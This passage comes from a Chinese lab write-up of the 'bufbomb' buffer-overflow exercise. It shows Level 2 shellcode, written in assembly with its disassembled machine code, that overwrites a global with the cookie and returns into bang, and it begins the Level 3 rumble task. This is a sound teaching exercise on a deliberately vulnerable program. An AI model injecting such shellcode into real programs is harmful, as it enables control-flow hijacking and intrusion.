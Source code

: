     不难看出bang的入口地址为`0x08049453`，global_value对应的内存地址为`0x804d1a8`(对应printf函数的参数)。
 3. 现在我们需要构造一个攻击代码。 新建`attack.S`文件:

	```c
	movl $0x3b1a3827,0x804d1a8
	push $0x08049453
	ret
	```
    这段攻击代码的功能是:将`global_value`替换为cookie的值,并使函数跳转到bang函数。 然后使用命令
	```c
	gcc -m32 -c "./level2(bang)/attack.S" -o "./level2(bang)/attack.o";
	objdump -d "./level2(bang)/attack.o" > "./level2(bang)/attack.d";
	```
    将攻击代码反汇编，得到指令的机器码。 
    `attack.d`:
	```c
	./bang/attack.o:     file format elf32-i386
	Disassembly of section .text:
	00000000 <.text>:
	   0:	c7 05 a8 d1 04 08 27 	movl   $0x3b1a3827,0x804d1a8
	   7:	38 1a 3b
	   a:	68 53 94 04 08       	push   $0x8049453
	   f:	c3                   	ret    
	```

 4. 将得到的机器码写入缓冲区中，将返回地址覆盖为缓冲区数组的起始地址（仍然使用小端方式）。
    ![在这里插入图片描述](https://img-blog.csdnimg.cn/c94a5d1ec9a14e6db14ed8172820d19f.png =x400)
    最后执行命令`cat "./level2(bang)/bang.txt" | ./hex2raw | ./bufbomb -u
    631907060609;`成功过关！
    ![在这里插入图片描述](https://img-blog.csdnimg.cn/dfc5dce756fc41a3a6d6debc76679d52.png)

## Level 3: rumble 
与前一级别相同，本级别实验需要在攻击字符串中包含实际的机器指令以实现改写原返回地址指针、执行特定的攻击行为等目标。与前一级别不同之处是，本级别需要在攻击字符串中包含准备和传递过程调用参数的指令，注意所传递参数与攻击字符串一样将占用栈中的存储空间。 
在 bufbomb 程序中，有一个 rumble 过程，代码如下： 

```c
void rumble(char *str) 
{ 
 if (eval2equal(str, cookie)) { 
 printf("Rumble!: You called rumble(\"%s\")\n", str); 
 validate(3); 
 } else 
 printf("Misfire: You called rumble(\"%s\")\n", str); 
 exit(0); 
} 
```

该过程将进一步调用一个原型为”int eval2equal(char *strval, unsigned val)“的过程，并当 eval2equal 过程的返回值为真时，提示正确地通过了本实验级别。与前面级别类似，本实验级别的任务是让 bufbomb 执行 rumble 过程中的代码而不是返回到 test 过程继续执行。具体来讲，攻击代码应首先在栈上准备正确的调用参数，再将rumble 过程的地址压入栈中，然后执行一条 ret 指令从而跳至 rumble 过程的代码继续执行。 
